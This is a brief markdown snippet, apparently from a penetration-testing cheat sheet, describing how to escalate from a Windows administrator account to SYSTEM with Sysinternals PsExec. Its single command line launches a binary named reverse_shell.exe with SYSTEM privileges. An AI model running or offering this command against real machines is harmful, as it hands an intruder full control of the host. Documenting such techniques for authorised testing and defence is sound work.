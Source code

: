 # Admin to System

## PSEXEC.exe

To escalate from an admin user to full SYSTEM privileges, you can use the PsExec tool from Windows Sysinternals

[https://docs.microsoft.com/en-us/sysinternals/downloads/psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

```text
PsExec64.exe -accepteula -i -s reverse_shell.exe
```















